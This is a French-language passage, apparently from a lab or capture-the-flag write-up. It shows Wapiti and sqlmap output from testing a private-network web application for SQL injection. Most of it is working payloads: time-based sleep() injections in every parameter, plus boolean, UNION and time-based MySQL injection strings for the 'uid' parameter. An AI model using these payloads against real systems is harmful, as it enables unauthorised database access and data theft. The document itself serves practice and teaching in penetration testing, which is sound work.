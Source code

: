 Aussitôt on lance *Wapiti* qui trouve des failles d'injection MySQL pour presque tous les paramètres :  

```plain
[+] Lancement du module blindsql
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre uid
  Evil url: http://192.168.1.57/m/?uid=%27%20or%20sleep%287%29%231&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=0
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre ver
  Evil url: http://192.168.1.57/m/?uid=88039670&ver=sleep%287%29%231&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=0
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre mk
  Evil url: http://192.168.1.57/m/?uid=88039670&ver=1.14&mk=sleep%287%29%231&os=WinXP&rs=adm&c=1&rq=0
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre os
  Evil url: http://192.168.1.57/m/?uid=88039670&ver=1.14&mk=bb3b62&os=sleep%287%29%231&rs=adm&c=1&rq=0
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre rs
  Evil url: http://192.168.1.57/m/?uid=88039670&ver=1.14&mk=bb3b62&os=WinXP&rs=sleep%287%29%231&c=1&rq=0
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre c
  Evil url: http://192.168.1.57/m/?uid=88039670&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=sleep%287%29%231&rq=0
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre rq
  Evil url: http://192.168.1.57/m/?uid=88039670&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=sleep%287%29%231
```

On enchaine avec *sqlmap* sur le paramètre *uid* qui nous présente différentes techniques d'attaque :  

```plain
sqlmap identified the following injection points with a total of 42 HTTP(s) requests:
---
Place: GET
Parameter: uid
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: uid=88039670' AND 5822=5822 AND 'BNVA'='BNVA&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=0

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: uid=-8964' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716d6a7071,0x5a6c444c4c796a655441,0x7178696b71)#&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=0

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind
    Payload: uid=88039670' AND SLEEP(5) AND 'UNfr'='UNfr&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=0
---
```
